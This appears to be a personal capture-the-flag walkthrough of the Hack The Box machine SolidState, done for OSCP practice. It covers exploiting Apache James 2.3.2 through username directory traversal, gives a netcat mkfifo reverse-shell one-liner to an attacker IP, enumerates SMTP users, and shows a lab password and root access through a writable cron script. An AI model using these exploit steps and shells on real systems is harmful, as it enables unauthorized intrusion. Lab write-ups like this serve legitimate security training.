 
Name: SolidState
Date:  21/11/2022
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Learning to email like a boomer, regaining a mixture of respect and  
- Weird Ports are sometimes the  target and normality is rabbithole
- Rick Sanchez "Measure twice, cut once" - Read twice, cut once
- Telnet `ctrl + $escapekey` - harder than vim exiting for my brain.
- Linpeas is not everything 

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

Little did I know this was going to be the equivent of Going Postal, except I just get kept in the cell till I eat the walls away with learn how to email people -  like real life. I am not an email person. Maybe one day I will be. Hopeful soon I will ajust to the discord server post covid world.

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](HackTheBox/Retired-Machines/SolidState/Screenshots/ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

Using default credentials
![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; performs version checks, creates a user that will be receiving the payload 
```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of Mail servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)

I misread and assume the below. The `>` is required for the addressing format.
```bash
# These line we mistaken
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest. 
```

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

Instead of climbing down to lesser quality hour, but using ZAP as I check everything except jquery versions as xxs is not really what is required or useful foothold on box CVE-2020-11023, CVE-2020-11022, CVE-2015-9251 and CVE-2019-11358. There are no parametres. I reset the box encase of any potential I may have errors.  I [peaked at both Ivan's](https://ivanitlearning.wordpress.com/2020/08/23/hackthebox-solidstate/) - saw "reading emails" subsection title  and was it and enough. My excuse/reasoning as to why is my confusion with a similar box like this were password resets made no difference it seemed. It also seems like a really unethical thing to do if you were pentesting or redteaming... I suppose you could change it back shortly after, but still. Nevermind. I have been training myself to be more "hunt the shine things" with THM AD Red teaming stuff and playing a bit of Hacknet. I am not as fixated by constant email/ social media checking as other people seem to be. I feel that this does not deserve demotion to helped-through, yet. But that was last strike. If need it again or change my mind this is here for the record.

So I did the thing...
![](reseteveryone.png)

To make it easy for my idiot self. Then I remembered that I put this:

Took this to double check mailing addresses in exploit - metasploit does not 
![](potential.png)
...in my notes for two reason, acted on check one, but not the other. My bad. Added Email to Noting Template. To remember. Then remember that port 25 is not 110...

```
VRFY james@solid-state-security.com
VRFY john@solid-state-security.com
VRFY thomas@solid-state-security.com
VRFY mindy@solid-state-security.com
VRFY mailadmin@solid-state-security.com
# I tried 
ehlo # my ip, there ip, solid-state-security.com
# All ERR
```

https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019

![](cluesinthemail.png)

As not fan of emails general it is rather strange that the old versions are **this clunky**. It been almost a year since I hacked email ports.

![](poormindy.png)

`mindy : P@55W0rd1!2@`


## Exploit  & Foothold &  PrivEsc

Mindy is not powerful enough to know herself.
![](mindyisnotpowerfulenoughtoknowherself.png)

So with all my tryharding, which is positive. I did not need to edit code. I did not need to really understand the vulnerability. I enumerate and almost died trying. If my cheatsheets were up to par on POP3 this would have been a breeze. 

![1000](scriptfailed.png)

Retried and boom
![](retriedandbooom.png)

![](env.png)

We need to escape the rbash shell. We sort of escape it as much as possible with exploit or 
`ssh -t "bash --noprofile"`
![](what.png)


There is no sudo on this box. James is on the box.

Linpeas list:

- no gcc or cc or make so no:
Vulnerable to CVE-2021-4034 
Potentially Vulnerable to CVE-2022-2588
Potential pwnkit.

chmod 777 the bin directory to enumerate. 
![](chmodingthebin.png)

127.0.0.1 631

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
/opt/tmp.py

Although I could not run pspy64 due to restricted shell this seems like a script that is scheduled with cronjob
![](tmptmp.png)

Copying a back up to /home/mindy I added a simple bash reverse shell.

![](reverseshellattempt.png)

Root
![](root.png)

